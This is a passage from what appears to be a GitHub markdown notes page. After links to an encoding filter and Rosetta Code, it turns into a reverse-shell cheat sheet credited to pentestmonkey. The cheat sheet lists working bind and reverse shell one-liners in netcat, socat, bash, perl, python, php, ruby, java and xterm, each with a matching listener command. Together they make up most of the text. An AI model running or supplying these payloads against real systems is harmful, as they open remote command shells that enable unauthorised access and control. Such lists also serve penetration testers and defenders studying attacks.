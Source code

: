
* Cross-encodings: [luit](http://invisible-island.net/luit/) - a filter that can be run between an arbitrary application and a UTF-8 terminal emulator. It will convert application output from the locale's encoding into UTF-8, and convert terminal input from UTF-8 into the locale's encoding.

* [Execute a `system` command](https://rosettacode.org/wiki/Execute_a_system_command#Python) in a lot of various languages.

#### run shells listening on network (with different languages)

*thanks to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), [Snifer/security-cheatsheets reverse-shell](https://github.com/Snifer/security-cheatsheets/blob/master/reverse-shell)*

* ***netcat*** bind shell: remote: `nc -e /bin/bash -nvlp 12344`, local: `nc -nvv 10.0.0.1 12344`
* ***netcat*** reverse shell: remote: `nc -e /bin/bash 10.0.0.1 1337`, local: `nc -nvlp 12344`
* ***socat*** bind shell: remote: `socat TCP-LISTEN:12344,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane`, local: ```socat FILE:`tty`,raw,echo=0 TCP:10.0.0.1:12344```
* ***socat*** reverse shell: remote: `socat TCP4:10.0.0.1:12344 EXEC:bash,pty,stderr,setsid,sigint,sane`, local: ```socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0```
* ***bash***: remote: `bash -i >& /dev/tcp/10.0.0.1/12344 0>&1`, local: `nc -nvlp 12344`
    <br> remote: `exec /bin/bash 0&0 2>&0`
    <br> remote: `0<&196;exec 196<>/dev/tcp/10.0.0.1/12344; sh <&196 >&196 2>&196`
* ***perl***: remote: `perl -e 'use Socket;$i="10.0.0.1";$p=12344;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` (depends on `/bin/sh`), local: `nc -nvlp 12344`
    <br> remote: `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:12344");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`
    <br> remote: `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:12344");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` (windows only)
* ***python***: remote: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",12344));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`, local: `nc -nvlp 12344`
    <!-- alternative: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",12344));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'` -->
* ***php***: remote: `php -r '$sock=fsockopen("10.0.0.1",12344);exec("/bin/sh -i <&3 >&3 2>&3");'`, local: `nc -nvlp 12344` (assumption: tcp connection uses descriptor 3, if not, try 4,5,6...)
* ***ruby***: remote: `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",12344).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'` (depends on `/bin/sh`), local: `nc -nvlp 12344`
    <br> `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","12344");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
    <br> `ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","12344");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'` (windows only)
* ***java***: remote: `r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/12344;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();`, local: `nc -nvlp 12344`
* ***xterm***: remote: `xterm -display 10.0.0.1:1` (this will connect on port 6001), local: `Xnest :1` (target must be authorized to connect to you: `xhost +targetip`)
* ***gawk*** look at [Snifer/security-cheatsheets reverse-shell](https://github.com/Snifer/security-cheatsheets/blob/master/reverse-shell)
